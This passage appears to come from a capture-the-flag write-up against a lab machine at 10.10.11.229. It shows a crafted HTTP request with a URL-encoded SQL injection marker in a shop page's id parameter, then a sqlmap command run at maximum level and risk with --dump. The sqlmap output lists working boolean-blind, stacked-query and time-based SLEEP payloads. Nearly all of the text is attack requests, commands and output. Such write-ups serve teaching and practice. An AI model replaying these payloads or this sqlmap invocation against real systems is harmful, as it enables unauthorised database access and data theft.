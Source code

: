Seems to work! Let’s export a request with an injection marker for sqlmap.

![Burp showing response](Assets/burp_response.jpg)

```
GET /shop/index.php?page=product&id=%0d%0a%27*%3b%0d%0a%2d%2d%32 HTTP/1.1
Host: 10.10.11.229
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.11.229/shop/index.php?
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
```

```
$ sqlmap -r productGet.req --level 5 --risk 3 --dump

 ... snip ...

sqlmap identified the following injection point(s) with a total of 692 HTTP(s) requests:
---
Parameter: #1* (URI)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (NOT)
    Payload: http://10.10.11.229/shop/index.php?page=product&id=
' OR NOT 9568=9568;
--2

    Type: stacked queries
    Title: MySQL >= 5.0.12 stacked queries
    Payload: http://10.10.11.229/shop/index.php?page=product&id=
';SELECT SLEEP(5);
--2

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: http://10.10.11.229/shop/index.php?page=product&id=
' AND (SELECT 9276 FROM (SELECT(SLEEP(5)))bDCZ);
--2
```